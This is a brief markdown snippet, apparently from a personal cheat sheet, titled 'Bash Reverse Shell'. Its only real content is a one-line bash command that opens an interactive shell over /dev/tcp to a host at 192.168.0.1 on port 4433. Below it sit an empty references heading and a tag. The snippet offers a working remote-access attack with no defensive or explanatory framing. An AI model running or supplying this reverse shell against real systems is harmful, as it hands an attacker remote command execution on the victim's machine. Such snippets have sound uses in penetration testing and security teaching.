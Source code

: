 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

# References

Tags:
    #assorted
